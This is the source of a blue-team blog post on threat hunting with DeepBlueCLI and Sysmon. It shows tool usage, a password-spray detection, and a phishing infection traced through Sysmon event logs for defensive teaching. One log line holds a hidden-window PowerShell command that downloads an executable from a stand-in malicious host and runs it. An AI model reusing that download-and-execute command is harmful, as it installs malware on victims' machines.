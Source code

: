 ```yaml
---
layout: post
title:  "Threat Hunting with Windows Event Logs & Sysmon"
description: "A brief post on threat hunting using Windows Event Logs"
date:   2020-02-01 11:00:01 +0000
tags: [Blue-Team, SOC, Monitoring, Logging]
---
```


![Hunting with Sysmon](/blog/assets/search.png)

## DeepBlueCLI
A PowerShell Module for Threat Hunting via Windows Event Logs

Specifically:
 * Windows Security
 * Windows System
 * Windows Application
 * Windows PowerShell
 * Sysmon

Code is available here:
 * [https://github.com/sans-blue-team/DeepBlueCLI](https://github.com/sans-blue-team/DeepBlueCLI)
 
### Deepbluecli usage

#### Process local Windows event logs (PowerShell must be run as Administrator):
Default - read all appropriate logs and filter events:
```
.\DeepBlue.ps1
```

#### Process local Windows security event log

```
.\DeepBlue.ps1 -log security
```

#### Process local Windows system event log:
```
.\DeepBlue.ps1 -log system
```

#### Process an evtx file:
```
.\DeepBlue.ps1 .\evtx\new-user-security.evtx 
```

## Deepbluecli working examples from SANS Kringlecon II
We recently used deepbluecli to solve one of the Kringlecon II challenges. Here we will inspect the results of Deepbluecli a little further to show how easy it is to process security events: 

### Password spray attack

```
Date : 19/11/2019 12:21:46
Log : Security
EventID : 4648
Message : Distributed Account Explicit Credential Use
(Password Spray Attack)
Results : The use of multiple user account access attempts with explicit credentials is an indicator of a password spray attack.
Target Usernames: ygoldentrifle esparklesleigh hevergreen Administrator sgreenbells cjinglebunsvtcandybaubles
bbrandyleaves bevergreen lstripyleaves gchocolatewine ltrufflefig wopenslae mstripysleighvpbrandyberry 
civysparkles sscarletpie ftwinklestockings cstripyfluff gcandyfluff smullingfluff hcandysnaps mbrandybells 
twinterfig supatree civypears ygreenpie ftinseltoes smary ttinselbubbles dsparkleleaves
```

## Deepbluecli working examples
There are many more example in the DeepBlueCli github repository thats publicly available here:
 * [https://github.com/sans-blue-team/DeepBlueCLI/tree/master/evtx](https://github.com/sans-blue-team/DeepBlueCLI/tree/master/evtx)

## Common Incident Response Scenario - Phishing
We will see the actions being recorded with sysmon as the user takes the following actions. 

You will see the following Sysmon Event Ids which are capturing these events.
 * **Event ID 1**: Process creation – This event provides extended information about a newly created process. The full command line provides context on the process execution. The ProcessGUID field is a unique value for this process across a domain to make event correlation easier. The hash is a full hash of the file with the algorithms in the HashType field.
 * **Event ID 11**: FileCreate – This event is useful for any file creation events monitoring autostart locations, like the Startup folder, as well as temporary and download directories, which are common places malware drops during initial infection.
 * **Event ID 15**: FileCreateStreamHash -This event logs when a named file stream is created, and it generates events that log the hash of the contents of the file to which the stream is assigned (the unnamed stream), as well as the contents of the named stream. There are malware variants that drop their executables or configuration settings via browser downloads, and this event is aimed at capturing that based on the browser attaching a Zone.Identifier “mark of the web” stream.

Let’s get started:

### Clicking on a Phishing email link
```
EventID: 1
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\OUTLOOK.EXE”
event_data.Image: C:\Program Files\Internet Explorer\iexplore.exe
event_data.CommandLine: “C:\Program Files\Internet Explorer\iexplore.exe” https://myfakecompany.badmalware.com/1.php?
event_data.User: user_6310
```

 * A phished user (user_6310) clicked on a link within outlook which launched Internet explorer and opened the following website: https://example.badmalware.com

### Downloading Word .doc
```
EventID: 11
event_data.Image: C:\Program Files (x86)\Internet Explorer\IEXPLORE.EXE
event_data.TargetFilename: C:\Users\user_6310\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

 * Internet explorer downloaded a file called 5B713D2A.doc

(Note: There might be logs where it might show as .tmp file as the download might not be completed when the log is recorded)

### Opening Word File
```
EventID: 1
event_data.Image: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.TargetFilename: C:\Users\user_6310\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

 * User opened (or possibly the users browser auto_opened) 5B713D2A.doc with Microsoft Word.

### Macro-enabled Word document
```
EventID: 1
event_data.ParentImage: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE” -Embedding
event_data.Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
event_data.CommandLine: powershell -WindowStyle Hidden $webclient = new-object System.Net.WebClient;$myurls = ‘http://example.badmalware.ru/z3FRJz’.Split(‘,’);$path = $env:temp + ‘\65535.exe’;foreach($myurl in $myurls){try{$webclient.DownloadFile($myurl.ToString(), $path);Start-Process $path;break;}catch{}}
event_data.User: user_6310
```

 * The User enabled macros on this document and a powershell command executed.
 * The powershell command downloads an executable file called 65535.exe from http://Malicioussite.su/z3FRJz 

### Payload downloaded via Powershell
```
event_id: 11
event_data.Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
event_data.TargetFilename: C:\Users\user_6310\AppData\Local\Temp\65536.exe
```

 * Powershell downloads and executes the binary 65536.exe to/from C:\Users\user_6310\AppData\Local\Temp\

The badmalware executable is likely now running in memory, and performing additional tasks within the contect of the infected User.  Its possible that the malware could be:
 * sniffing credentials
 * sniffing banking information 
 * bitcoin (or other coin) mining
 * downloading additional malware
 * encrypting the user’s files (ransomware(
 * or establish persistence of some sort. 

At this point you wished you were recording other actions on the endpoint to know exactly what changes were made

## References
 * [https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)
 * [https://github.com/MHaggis/sysmon-dfir](https://github.com/MHaggis/sysmon-dfir)
 * [https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1554993664.pdf](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1554993664.pdf)
 * [https://github.com/sans-blue-team/DeepBlueCLI](https://github.com/sans-blue-team/DeepBlueCLI)
